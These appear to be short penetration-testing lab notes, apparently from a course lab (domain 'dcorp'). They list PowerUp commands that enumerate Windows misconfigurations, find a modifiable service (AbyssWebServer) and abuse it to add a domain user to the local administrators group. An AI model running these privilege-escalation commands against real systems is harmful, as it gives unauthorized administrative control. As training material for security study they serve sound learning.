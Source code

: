 [[Enumeration Start]]
```
Invoke-AllChecks
```
to add current user to admin group: 
find which service is modifiable 
```
Get-ModifiableService
```
here we found abyssWebServer therefore using:
==AbyssWebServer,== 
```
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\<user>' -Verbose
```
